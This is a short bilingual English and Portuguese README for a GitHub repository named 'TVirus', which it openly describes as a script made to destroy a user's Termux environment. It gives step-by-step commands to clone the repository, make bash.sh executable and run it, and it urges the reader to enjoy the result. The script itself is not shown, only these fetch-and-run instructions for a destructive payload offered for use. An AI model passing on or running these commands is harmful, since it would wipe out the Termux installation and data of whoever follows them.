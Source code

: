 # TVirus
#Termux "virus"
# What is it for?(Para que que serve?)
#It's a script made to DESTROY TERMUX and nothing else, enjoy it >:)
#É um script feito para DESTRUIR O TERMUX e nada mais, aproveite >:)

# How i install it?(Como eu instalo?)

#Its simple(É simples)

git clone https://github.com/ixzzxitado/tvirus.git

cd tvirus

chmod +x bash.sh

bash bash.sh

# And ready!(E pronto!)

#enjoy ;)

# ©Copyright Ixz Modder
